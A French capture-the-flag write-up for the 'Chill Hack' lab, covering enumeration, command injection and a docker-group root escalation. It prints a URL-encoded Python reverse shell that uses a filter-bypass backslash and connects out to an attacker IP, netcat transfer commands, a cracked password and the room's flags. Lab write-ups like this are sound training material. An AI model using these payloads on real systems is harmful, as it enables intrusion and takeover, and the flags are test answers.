


#Chill Hack

##Enumeration

Je commence par un scan nmap 

Je peux voir qu'il y a 3 ports ouverts

1. 21/ftp
2. 22/ssh
3. 80/http

Il est possible de se connecter en ftp grâce au login "anonymous"

Je remarque un fichier "note.txt" qu'on télécharge grâce à "get note.txt".

    note.txt : Anurodh told me that there is some filtering on strings being put in the command -- Apaar

J'utilise ensuite gobuster pour bruteforce les dossiers cachés 

Je remarque un dossier /secret 

J'essaie la commande "id", la page nous renvoie le bon output

## Reverse Shell

Je vais donc upload un reverse shell python tout en lançant un listener net cat en parallele

    nc -lvnp 1244

    Rev Shell python : p\ython3/files%20-c%20'import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.9.14.188%22,1244));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22/bin/bash%22)'

Bingo, j'ai un reverse shell

Je remarque un fichier "hacker.php" dans le dossier /var/www/files

Je télécharge "images/hacker-with-laptop_23-2147985341.jpg" grâce à netcat

>nc -w 3 10.9.14.188 1234 < hacker-with-laptop_23-2147985341.jpg

> nc -lvn 10.10.104.157 > hacker-with-laptop_23-2147985341.jpg

J'utilise "steghide" pour extraire les données cachées dans l'image grâce auquel on récupère un zip "backup.zip"

Avec john je craque le mdp. 

>john hash -w=/usr/share/wordlists/rockyou.txt

    pass1word        (backup.zip/source_code.php)

La backup contient un fichier "source_code.php"

Ce code source nous révèle un username et un mot de passe encodé en base64

    Username : Anurodh 
    Password : !d0ntKn0wmYp@ssw0rd

Ces identifiants nous permettent de se log en ssh avec l'username "anurodh"

On peut éxécuter /home/apaar/.helpline.sh en tant que "apaar" sans mot de passe

    user flag : {USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}

## Root Flag

Je me reconnecte sur anurodh en ssh 

Je sai qu'elle est membre du groupe "docker"

Grâce à GTFOBins on sait qu'une escalation de privilège est possible

https://gtfobins.github.io/gtfobins/docker/

Bingo j'ai les privilièges root

Il ne me reste plus qu'à récupérer le flag

    root flag: {ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}
